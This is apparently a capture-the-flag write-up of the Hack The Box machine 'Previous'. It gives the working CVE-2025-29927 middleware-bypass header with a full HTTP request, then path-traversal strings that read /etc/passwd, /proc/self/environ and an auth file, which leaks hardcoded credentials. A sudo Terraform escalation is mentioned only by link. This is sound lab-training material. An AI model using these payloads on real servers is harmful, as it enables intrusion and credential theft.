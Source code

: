 ```yaml
---
title: "Previous"
date: 2025-09-22
categories: [HTB]
tags: [Linux, terraform,CVE]
---
```

![previous](/assets/previous-htb/logo.png)

## Nmap Scan

I started with a full port scan:
```shell
sudo nmap 10.10.11.83 -T4 -A -open -p-
```
![nmap](/assets/previous-htb/nmap.png)
the scan showed a web server running on port 80. There’s a login page and on it, I found an email: ```jeremy@previous.htb```
- tried using tools to brute force the login with jeremy as the username.
- I looked for ways to bypass the login  maybe a logic flaw, or something in the JavaScript.
- I found some interesting paths but they all needed me to be logged in first.<br>
Stuck? Maybe. But not for long.

```PreviousJS``` That Name Sounds Familiar The website uses something called ```PreviousJS.```.<br>
 I remembered  there was a recent vulnerability ```CVE-2025-29927```

## CVE-2025-29927

Found in March by ```Allam Yasser (@inzo_)``` and his friend ```Allam Rachid (@zhero_)```.<br>
You can read more about it here:<br>[https://github.com/aydinnyunus/CVE-2025-29927](https://github.com/aydinnyunus/CVE-2025-29927)<br>
This CVE lets you bypass authentication by sending a special header.
The Magic Header To get past the login, I added this header to my request:
```shell
X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware
```
Example request:

```shell
GET /_next/data/qVDR2cKpRgqCslEh-llk9/docs.json HTTP/1.1
Host: previous.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware
Content-Type: text/html
Upgrade-Insecure-Requests: 1
If-None-Match: "17m2fyh3hl048k"
Priority: u=0, i
```
And just like that I got access to pages that should have been locked behind login
![access](/assets/previous-htb/access.png)

## Hidden Paths & LFI

Found Interesting Paths After bypassing the login, I checked this file which exist in by reading source code:
```shell
http://previous.htb/_next/static/qVDR2cKpRgqCslEh-llk9/_buildManifest.js
```
![hidden](/assets/previous-htb/hidden.png)
Inside, I found a list of internal paths:
```shell
/
/_error
/docs
/docs/components/layout
/docs/components/sidebar
/docs/content/examples
/docs/content/getting-started
/docs/[section]
/signin
```
These are not just links they’re a map of the app’s structure Very useful for knowing where to look next.<br>
Found a Download Endpoint The I found this:
![helloworld](/assets/previous-htb/helloworld.png)
which by reading source code I found endpoint:
![endpoint](/assets/previous-htb/endpoint.png)

It lets users download files. That’s interesting and often dangerous.<br>
When you see “download” + user input?<br>
Think: Local File Inclusion (LFI).

I tested with:
```shell
/api/download?example=../../../../etc/passwd
```
It returned the contents of /etc/passwd.
![passwd](/assets/previous-htb/passwd.png)

## Next.js & User.txt

I confirmed that the server is running a ```Next.js``` application, likely under the user ```nextjs``` or ```node```. <br>
This tells us the backend environment and helps us focus our next steps.<br>
In Linux, each running process has a special file:
```shell
/proc/self/environ
```
This file contains all environment variables for the current process in our case, the ```Next.js``` server.<br> I accessed it using our LFI:
```shell
/api/download?example=../../../../proc/self/environ
```
![environ](/assets/previous-htb/environ.png)
The output showed us important details:

- Working directory: ```PWD=/app```
- Possibly sensitive values like API keys or database passwords
- The word “self” means: “the process currently handling this request” which is the Next.js server.

This is a major win. I now know the application lives in ```/app```.<br>
With ```/app``` as our root, I can now look for key files and folders that define how the ```Next.js``` app works.

Based on ```Next.js``` [documentation](https://nextjs.org/docs/app/getting-started/project-structure), I expect to find:
- ```.next/``` compiled files, server code, and routing info
- ```routes-manifest.json``` lists all routes, rewrites, and redirects
- Special files like ```middleware.js```, ```next.config.js```, and ```API routes```<br>

So I focused on the ```.next``` folder because it holds backend logic including compiled server-side code.<br>
Inside ```.next/routes-manifest.json/```i found:
![routes](/assets/previous-htb/routes.png)
This file handles authentication logic how users log in, how sessions are managed, and where credentials are checked.
We read its contents through LFI:
```shell
/api/download?example=../../../../app/.next/server/pages/api/auth/[...nextauth].js
```
Inside, we found hardcoded credentials:
![creds](/assets/previous-htb/creds.png)
```shell
jeremy:MyNameIsJeremyAndILovePancakes
```
![user](/assets/previous-htb/user.png)


##  Root.txt

After gaining access as the user ```jeremy```, I ran linpeas.sh to look for possible privilege escalation paths.<br>
The scan did not highlight anything obvious, so I manually checked what commands the user can run with sudo.
```shell
sudo -l
```
Showed that jeremy can run Terraform as root:
![terraform](/assets/previous-htb/terraform.png)
This is a strong lead  being able to run Terraform with root privileges in a specific directory often opens the door to code execution as root, especially if environment variables are not properly restricted.

I searched for known exploits related to ```sudo + Terraform``` and found a detailed write-up:
[https://dollarboysushil.com/posts/Terraform-Sudo-Exploit-Privilege-Escalation/](https://dollarboysushil.com/posts/Terraform-Sudo-Exploit-Privilege-Escalation/)

The article explains how to abuse Terraform’s ```provider_installation``` and the ```TF_CLI_CONFIG_FILE``` environment variable to force Terraform to load and execute a malicious provider script as root.<br>

> JUST GO THROUGH WITH ARATICAL AND GET EASY ROOT
{: .prompt-info }